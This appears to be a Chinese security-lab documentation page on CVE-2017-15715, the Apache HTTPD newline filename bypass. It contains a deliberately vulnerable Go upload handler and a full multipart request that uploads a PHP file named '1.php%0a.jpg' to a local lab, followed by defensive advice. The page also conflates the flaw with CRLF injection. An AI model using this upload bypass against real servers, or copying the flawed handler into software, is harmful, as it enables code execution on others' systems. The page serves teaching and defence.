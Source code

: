 ```yaml
---
sidebar_position: 4
---
```


# 04.CVE-2017-15715：Apache HTTPD 换行解析漏洞

Apache HTTPD 换行解析漏洞是一种 Web 服务器（Apache HTTPD）的安全漏洞，也被称为 CRLF 注入漏洞。该漏洞允许攻击者通过特定的换行符注入恶意内容，进而实施各种攻击。

### 示例代码：

```Go
fn := header.Filename
var serverExt string
var fileSystemExt string
writeFile, after, _ := strings.Cut(fn, "\x0a")
fileSystemExt = filepath.Ext(writeFile)
if after != "" {
 serverExt = after
} else {
serverExt = fileSystemExt
}
if !utils.MatchAnyOfSubString(strings.ToLower(serverExt), "jpg", "png", "jpeg", "ico") {
    unsafeTemplateRender(writer, request, uploadFailed, map[string]any{
        "reason": fmt.Sprintf(
            "u upload file: %v, fileSystemExt: %v, serverExt: %v",
            strconv.Quote(fn), strconv.Quote(fileSystemExt), strconv.Quote(serverExt),
        ),
    })
    return
tfp, err := consts.TempFile("temp-*-" + writeFile)
```

### 攻击示例：

按照[RFC2231](http://tools.ietf.org/html/rfc2231)的定义，多语言编码的 Content-Disposition 应该这么定义：

```
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
```

即：

- filename 后面的等号之前要加 \*
- filename 的值用单引号分成三段，分别是字符集(utf8)、语言(空)和 urlencode 过的文件名。
- 最好加上双引号，否则文件名中空格后面的部分在 Firefox 中显示不出来

```HTML
POST /upload/case/cve-2017-15715 HTTP/1.1
Host: 127.0.0.1:8787
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 233
Content-Type: multipart/form-data; boundary=---------------------------299942644414050572304234542504
DNT: 1
Origin: http://127.0.0.1:8787
Referer: http://127.0.0.1:8787/upload/main?case=cve-2017-15715
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:91.0) Gecko/20100101 Firefox/91.0

-----------------------------299942644414050572304234542504
Content-Disposition: form-data; name="filename"; filename*=UTF-8''1.php%0a.jpg
Content-Type: text/php

<?=phpinfo()?>
-----------------------------299942644414050572304234542504--
```

### 防御措施：

- 输入验证和过滤：对于所有从用户输入中获取的数据，包括 HTTP 请求头部字段，都应该进行严格的输入验证和过滤。特别是需要对换行符进行过滤，确保不会在用户输入中包含额外的换行符。
- 规范化输出：在响应中返回的内容应该经过正确的编码和规范化，确保不会将用户输入作为响应头部字段的一部分输出。
- 升级服务器版本：及时升级 Apache HTTPD 服务器到最新版本，以获得最新的安全修复和漏洞修复。
- 使用 Web 应用防火墙（WAF）：使用 WAF 可以帮助检测和阻止恶意请求，提高 Web 应用的安全性。

### 靶场演示： 视频

<video
  src="/img/yaklab/fileupload/03unsafe-cve201715715.mp4"
  loop={true}
  playsInline={true}
  controls={true}
  autoPlay={true}
  style={{ width: 890 }}
/>
